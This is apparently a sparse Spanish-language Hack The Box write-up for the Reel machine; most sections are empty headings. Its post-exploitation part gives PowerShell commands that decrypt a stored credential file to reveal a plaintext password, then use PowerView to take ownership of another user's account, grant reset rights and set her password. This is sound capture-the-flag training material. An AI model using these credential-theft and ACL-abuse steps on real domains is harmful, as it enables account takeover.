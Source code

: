 #### Pasos previos | Preparación



#### Ejecución



## Post Explotación

### Enumeración

```powershell
powershell -c "$cred = Import-CliXml -Path .\desktop\cred.xml; $cred.GetNetworkCredential() | Format-List "


UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB

c:\Users\nico>
```

```powershell
Get-DomainPolicyData -Policy all -Server reel.htb.local -Domain htb.local | Export-CliXML gpo.xml
```

```powershell
PS C:\Users\tom\Desktop\AD Audit\bloodhound> $userPassword = 'Sup3rS3cr3t!'
PS C:\Users\tom\Desktop\AD Audit\bloodhound> $secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
PS C:\Users\tom\Desktop\AD Audit\bloodhound> Set-DomainObjectOwner -identity claire -OwnerIdentity tom
PS C:\Users\tom\Desktop\AD Audit\bloodhound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
PS C:\Users\tom\Desktop\AD Audit\bloodhound> Set-DomainUserPassword -identity claire -accountpassword $secStringPassword


$userPassword = 'Sup3rS3cr3t!'
$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
Set-DomainObjectOwner -identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
Set-DomainUserPassword -identity claire -accountpassword $secStringPassword


```


### Escalación de privilegios


## Conclusión


## Notas adicionales


## Referencias

